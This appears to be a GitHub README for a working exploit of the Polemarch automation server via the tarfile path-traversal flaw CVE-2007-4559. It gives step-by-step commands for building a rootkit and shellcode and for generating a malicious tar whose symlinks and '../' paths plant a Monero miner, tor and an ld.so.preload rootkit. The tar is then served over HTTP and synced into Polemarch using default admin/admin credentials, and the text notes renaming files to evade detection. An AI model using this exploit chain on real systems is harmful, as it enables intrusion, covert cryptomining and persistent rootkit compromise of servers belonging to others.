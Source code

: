 # CVE-2007-4559 - Polemarch exploit 
Full working exploit for Polemarch server https://www.polemarch.org/, using CVE-2007-4559, allowing:

- Injection of a cryptominer for monero 
- Injection of a rootkit


## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
We want to be able to deploy the following files:

- /usr/local/lib
  - -> **rootkit.so**: library to load
- /etc
  - -> **ld.so.preload**: library to load before any other library
- /opt/polemarch/bin
  - -> **polemarchctl**: infected docker entry point
- /usr/bin
  - -> **xmring**: miner
  - -> **tor**: tor

Note: in the real exploit we would change some names to avoid detection.

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder

## Instructions
In order to deploy the malware we will have to set up:

- Compile necessary binaries
- Polemarch server with malicious python
- Create server hosting the compromised tar files

## Compile binaries

We will need to compile the rootkit shared library and the shellcode:

```bash
$(rootkit): make
$(shellcode): gcc -z execstack -m32 -o shellcode shell.c
```

### Polemarch server
First, deploy the polemarch server with the malicious server:

```bash
$: docker compose build 
$: docker compose up -d
```

And open the web interface at http://localhost:8080

### Generate tar files
The tar files will be generated in the `poc/tar/` folder.

But first, we need to set up all the files for generating the tar correctly.

1. Copy the binaries to the `poc` folder:

```bash
$: cp cryptominer/tor poc/
$: cp crytominer/xmrig poc/
```

2. Generate the rootkit shared library in the `poc/rootkit` folder:

```bash
$(rootkit): make
```

3. Copy the rootkit shared library to the `poc` folder:

```bash
$: cp rootkit/rootkit.so poc/
```

And then we can generate the tar files:

```bash
# Execute tar files generator
$: python3 tar.py
[*] Creating symlink aaaa -> etc/
[*] Creating symlink bbbb -> usr/local/lib/
[*] Creating symlink cccc -> usr/bin/
[*] Creating symlink dddd -> opt/polemarch/bin/
[*] Changing aaaa to ../../../../../../../../../test/aaaa
[*] Changing bbbb to ../../../../../../../../../test/bbbb
[*] Changing cccc to ../../../../../../../../../test/cccc
[*] Changing dddd to ../../../../../../../../../test/dddd
[*] Changing ld.so.preload to ../../../../../../../../../test/aaaa/ld.so.preload
[*] Changing rootkit.so to ../../../../../../../../../test/bbbb/rootkit.so
[*] Changing tor to ../../../../../../../../../test/cccc/tor
[*] Changing xmrig to ../../../../../../../../../test/cccc/xmrig
[*] Changing polemarchctl to ../../../../../../../../../test/dddd/polemarchctl
[*] Removing symlink aaaa
[*] Removing symlink bbbb
[*] Removing symlink cccc
[*] Removing symlink dddd
```

This will generate the following tar files:
- `poc/tar/rootkit.tar.gz`: tar file with the malware

### Server hosting the tar files
Host the tar files, for example with python:
```bash
$: cd poc/tar
$: python -m http.server 3005
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![PROJECT](https://user-images.githubusercontent.com/60936394/206489889-e48ef2fa-3bf8-4df7-b5bf-6c5a6cdec872.png)

"Sync" the project, which will untar untar our compromised tar.

Note: the server hosting IP must be accessible from the docker of virtual machine

## Disclaimer
This project is for research purposes only and should not be used for any illegal or malicious activities. The creators of this project are not responsible for any harm or damage caused by the misuse of this software.

